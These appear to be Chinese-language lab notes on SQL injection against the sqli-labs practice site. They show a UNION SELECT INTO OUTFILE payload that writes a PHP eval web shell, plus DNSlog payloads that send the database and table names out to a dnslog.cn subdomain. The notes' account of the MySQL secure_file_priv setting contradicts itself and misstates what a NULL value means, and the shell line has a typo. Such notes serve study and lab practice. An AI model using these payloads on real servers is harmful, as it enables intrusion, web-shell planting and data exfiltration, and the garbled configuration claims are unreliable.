









#### 文件上传

```
show variables like '%secure%';
```



"secure_file_priv"是MySQL的一个系统变量，用于指定可用于数据文件导入和导出的目录路径。value值一般有以下三种状态：

1. 设置为特定目录路径：这是"secure_file_priv"的最常见状态。当"secure_file_priv"被设置为具体的目录路径时，MySQL只允许从该目录中进行文件的导入和导出操作。这提供了一定程度的安全性，限制了对文件系统的访问。
   ```
   //只能在特定的路径下
   ```
2. 设置为NULL：在某些情况下，"secure_file_priv"可能被设置为NULL。这表示MySQL允许从任意路径导入和导出文件，即可以访问文件系统中的任何位置。这种状态下可能存在安全风险，因为它可能允许恶意用户执行潜在的危险操作。
   ```
   //当前不能够在目标服务器进行读写
   ```
3. 未设置或未定义：如果"secure_file_priv"未被显式设置或定义，则MySQL会使用默认值。默认情况下，"secure_file_priv"被设置为NULL，这意味着MySQL允许从任意路径导入和导出文件。在这种情况下，也存在安全风险。
   ```
   //对整个硬盘都可以读写
   ```









```
http://localhost/sqli_labs/Less-7/?id=-1')) union select 1,"<?php @eval($POST['password']);?>",3 into outfile "D:\\phpstudy_pro\\WWW\\ben.php" --+
**此处注意：一直创建不了ben.php大概率是因为之前所提到的secure_file_priv系统变量的value值为null
```



#### DNSlog注入

http://ceye.io

http://www.dnslog.cn/





```
查询其他表名及字段时只需要修改蓝色注释中的语句即可

http://localhost/sqli_labs/Less-9/?id=1' and (select load_file(concat("//",(select(database()),".7m94za.dnslog.cn/benben.txt")))--+
//查询当前数据库名

http://localhost/sqli_labs/Less-9/?id=1' and (select load_file(concat("//",(select table_name from information_schema.tables where table_schema=database() limit 0,1),".7m94za.dnslog.cn/benben.txt")))--+
//查询当前库内第一个表的名称
```


